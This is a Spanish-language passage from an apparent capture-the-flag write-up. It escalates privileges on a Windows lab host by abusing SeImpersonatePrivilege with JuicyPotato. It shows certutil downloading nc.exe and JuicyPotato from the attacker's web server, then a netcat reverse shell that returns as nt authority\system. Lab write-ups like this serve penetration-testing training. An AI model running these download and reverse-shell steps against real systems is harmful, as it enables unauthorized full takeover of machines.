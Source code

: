 Vemos que el **SeImpersonatePrivilege** esta habilitado y como esta habilitado podemos abusar de el para ejecutar comandos de forma privilegiada con juicypotato([**https://github.com/ohpe/juicy-potato/releases/tag/v0.1**](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)) y netcat

```shell
> mv /home/red/Descargas/JuicyPotato.exe .
> cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
> ls; python3 -m http.server 80
 JuicyPotato.exe   nc.exe   rs.jsp
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Nos descargamos el juicypotato y netcat de nuestro servidor web

```shell
\> cd \Windows\Temp

\> mkdir Red

\> cd red

\> certutil.exe -f -urlcache -split http://10.10.16.4/nc.exe nc.exe
****  Online  ****
  0000  ...
  6e00
CertUtil: -URLCache command completed successfully.

\> certutil.exe -f -urlcache -split http://10.10.16.4/JuicyPotato.exe JP.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.
\> .\JP.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port

Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

* Lo ejecutamos para enviarnos una reverse shell con el usuario administrador

```shell
\> .\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Red\nc.exe -e cmd <tu-ip> 4646"
```

```shell
> nc -lvnp 4646
listening on [any] 4646 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.11] 49878
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
